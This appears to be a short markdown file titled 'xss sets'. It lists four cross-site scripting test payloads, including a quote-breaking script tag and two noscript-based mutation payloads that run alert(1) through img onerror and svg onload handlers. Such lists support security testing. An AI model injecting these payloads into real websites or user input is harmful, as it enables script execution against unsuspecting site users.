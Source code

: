 # xss sets

> <script></script>
> '"><script>alert(1)</script>
> <noscript><p title="</noscript><img src=x onerror=alert(1)>">
> <noscript><p title="</noscript><svg/onload=alert(1)>">
